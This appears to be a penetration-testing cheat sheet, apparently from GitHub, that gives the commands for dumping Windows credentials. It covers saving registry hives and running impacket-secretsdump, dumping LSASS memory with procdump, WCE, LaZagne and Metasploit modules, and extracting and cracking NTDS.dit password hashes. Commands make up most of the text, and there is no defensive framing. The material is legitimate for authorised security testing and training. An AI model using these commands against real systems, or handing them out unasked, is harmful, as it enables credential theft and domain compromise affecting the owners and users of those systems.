 # Clear Text Credentials Dump on windows 

# Local Password dump

## Impacket

https://github.com/CoreSecurity/impacket

- get LSA secret keys from reg

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

- dump with impacket

```
impacket-secretsdump -sam /root/sam.save -security /root/security.save -system /root/Desktop/system.save Local
```

## Metasploit module

- post/windows/gather/lsa_secrets

## LSAsecrte binary

https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe

``` lsaSecretRead.exe DefaultPassword ```

## LSASS process with processdump

```
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

## WCE

- https://www.ampliasecurity.com/research/windows-credentials-editor/


```
wce.exe -w
```

## Credential manager

- https://github.com/AlessandroZ/LaZagne
```
lazagne all 
```

## Nishan framework

- https://github.com/samratashok/nishang

## Group Policy Preference 

- metasploit module

``` post/windows/gather/credentials/gpp ```

# Domain Password dump

- Export NTDS with ntdsutil

```
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

- install esbexport
```
wget https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz

sudo apt-get install autoconf automake autopoint libtool pkg-config

```
- Dump Tables
```
/usr/local/bin/esedbexport -m tables ntds.dit
```

- install ntdsextract

  - https://github.com/csababarta/ntdsxtract
  - need datatable, link_table, system hive

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```
format options is john, ocl ,ophc

- crack with hashcat , john 

```
hashcat -m 1000 output/ntout --username /path/to/wordlist

john –rules=all –fork=2 NT.out

```

## Reference 
https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/
